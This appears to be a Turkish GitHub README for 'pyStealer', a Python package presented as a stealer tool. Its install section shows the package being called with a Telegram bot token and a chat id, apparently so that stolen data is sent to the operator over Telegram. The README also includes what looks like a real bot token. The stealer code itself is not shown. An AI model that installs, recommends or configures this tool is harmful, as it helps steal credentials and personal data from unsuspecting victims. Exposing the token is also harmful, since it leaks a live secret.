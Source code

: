 # pyStealer

![Repo Boyutu](https://img.shields.io/github/repo-size/keyiflerolsun/pyStealer) ![Views](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/keyiflerolsun/pyStealer&title=Profile%20Views) [![Gitpod ready-to-code](https://img.shields.io/badge/Gitpod-ready--to--code-blue?logo=gitpod)](https://gitpod.io/#https://github.com/keyiflerolsun/pyStealer)

**Bir Dız Hikayesi**

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![ForTheBadge built-with-love](http://ForTheBadge.com/images/badges/built-with-love.svg)](https://GitHub.com/keyiflerolsun/)

## 🚀 Kurulum

```python
from pyStealer import pyStealer

pyStealer(
    bot_token = "1205885111:AAEHH1y7BoR4WmRHmOdJVEk2Ai30lhuvukw",
    chat_id   = 717569643
)
```

## ♻️ İletişim

*Benimle iletişime geçmek isterseniz, **Telegram**'dan mesaj göndermekten çekinmeyin;* [@keyiflerolsun](https://t.me/keyiflerolsun)

##

> **[@KekikAkademi](https://t.me/KekikAkademi)** *için yazılmıştır..*
